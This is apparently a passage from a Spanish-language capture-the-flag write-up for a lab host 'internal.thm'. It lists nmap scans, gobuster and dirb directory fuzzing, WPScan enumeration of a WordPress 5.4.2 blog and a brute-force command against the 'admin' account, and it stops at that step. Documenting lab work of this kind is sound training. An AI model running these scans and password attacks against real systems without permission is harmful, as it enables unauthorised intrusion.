 `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.215.220 -oG allPorts`

![[Pasted image 20250815092508.png]]

`nmap -p22,80 -sCV 10.10.215.220 -oN targeted`

![[Pasted image 20250815092536.png]]
### HTTP

`http://10.10.215.220/`

![[Pasted image 20250815092636.png]]
#### Fuzzing Web

`gobuster dir -u http://10.10.215.220 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250815092725.png]]

`dirb http://10.10.215.220/`

![[Pasted image 20250815100800.png]]

Se accede al directorio `/blog`.

`http://10.10.215.220/blog/`

![[Pasted image 20250815093021.png]]

![[Pasted image 20250815093155.png]]

Se observa que no se visualiza correctamente, se añade al archivo `/etc/hosts`.

`echo "10.10.215.220 internal.thm" >> /etc/hosts`

![[Pasted image 20250815093314.png]]

Se visualiza correctamente, además de averiguar con la extensión *Wappalyzer* la versión de *WordPress 5.4.2*.

---
## Exploitation
### WPScan

`wpscan --url http://10.10.215.220/blog/ --enumerate u,vp`

![[Pasted image 20250815093650.png]]
![[Pasted image 20250815093709.png]]

Se encuentra el usuario `admin`, se procede a realizar fuerza bruta.

`wpscan --url http://10.10.215.220/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin`

